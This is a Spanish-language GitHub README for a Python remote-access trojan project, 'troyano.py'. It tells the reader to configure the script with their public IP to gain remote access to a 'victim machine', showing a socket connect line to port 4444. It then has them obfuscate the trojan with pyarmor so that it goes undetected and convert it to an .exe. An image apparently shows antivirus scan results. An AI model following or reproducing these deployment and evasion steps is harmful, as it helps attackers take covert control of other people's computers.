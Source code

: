 # Troyano

<p align="center">
<img src="Logotipo.png">
</p>

Un troyano es un tipo de software malicioso que se disfraza de una aplicación legítima o atractiva para engañar a los usuarios y ganar acceso no autorizado a sus sistemas o dispositivos.

### Instalación

Descargar el repositorio de Github luego configurar el script **troyano.py** con tu IP publica para poder tener acceso remoto a la maquina victima

```python
conexion.connect(("192.168.1.10", 4444))
```


### Ofuscacion

Para hacer indetectable el troyano deberes instalar **pyarmor**

```
pip install pyarmor
```

Ahora ofuscamos el troyano con el siguiente comando:

```
pyarmor gen troyano.py
```

Luego de esto nos creara una carpeta Dist con el troyano ofuscado, por ultimo convertiremos **.py** a **.exe** con auto-py-to-exe.

```
pip install auto-py-to-exe
```

<p align="center">
<img src="./Img/virustotal.png">
</p>